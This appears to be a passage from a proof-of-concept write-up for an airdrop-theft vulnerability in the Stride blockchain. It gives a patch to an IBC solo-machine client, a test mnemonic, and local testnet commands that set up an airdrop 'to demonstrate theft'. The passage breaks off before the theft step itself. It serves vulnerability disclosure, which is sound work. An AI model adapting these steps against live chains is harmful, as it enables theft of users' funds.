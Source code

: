 ```
diff --git a/solo-machine/src/server/ibc.rs b/solo-machine/src/server/ibc.rs
index 3651fb8..0dcdc02 100644
--- a/solo-machine/src/server/ibc.rs
+++ b/solo-machine/src/server/ibc.rs
@@ -85,6 +85,7 @@ where
             .core_service
             .mint(
                 &self.signer,
+                None,
                 chain_id,
                 request_id,
                 amount,
```

* Now, create a .env file in the ibc-solo-machine folder with the following contents

```
SOLO_DB_URI="sqlite://solo-machine.db"
SOLO_SIGNER="./target/release/libmnemonic_signer.so"
SOLO_MNEMONIC="famous cloud allow endorse arctic opinion pottery behave tourist spatial prevent dog rib figure confirm thunder taxi flush crucial layer infant shoulder road destroy"
SOLO_HD_PATH="m/44'/394'/0'/0/0"
SOLO_ACCOUNT_PREFIX="stride"
SOLO_FEE_DENOM="ustrd"
```

* Clone the code for the Stride chain from [here](https://github.com/Stride-Labs/stride/tree/main).

```
$ git clone https://github.com/Stride-Labs/stride.git
$ cd stride
$ git checkout 3a5c7bfcc3b8c5e7dd870f01bebeb9d949492203
```

* Start a local Stride testnet

```
$ make localnet-init
$ make localnet-start
$ strided tx bank send val stride1y50hmprq9l4hcuj86jru62zt8xctap9h6cxyu5 900000000ustrd --gas auto --gas-prices 1ustrd --gas-adjustment 10
```

* Set up an airdrop to demonstrate theft and then set an airdrop allocation

```
$ strided tx claim create-airdrop --from val evmos 1000 10000000 ustrd
$ strided tx claim set-airdrop-allocations --from val evmos stride192n6u8de5x0zaad47m6pc2fk5vu5dd5wtx6xcf 1
```

* Connect the ibc solo machine to the Stride chain via IBC

```
# In ibc-solo-machine directory 
$ cargo build --release
$ ./target/release/solo-machine init 
Initialized solo machine!
# Fetch trusted block from local stride testnet 
$ TRUSTED_HASH=$(curl 'http://0.0.0.0:26657/block?height=10' | jq -r '.result.block_id.hash')
# Add chain
$ ./target/release/solo-machine chain add --trusted-hash $TRUSTED_HASH --trusted-height 10 --trusting-period "239sec" --fee-denom ustrd 
New chain added!

+----------+--------------+
| Chain ID | localstride  |
+----------+--------------+
# Connect to Chain
```
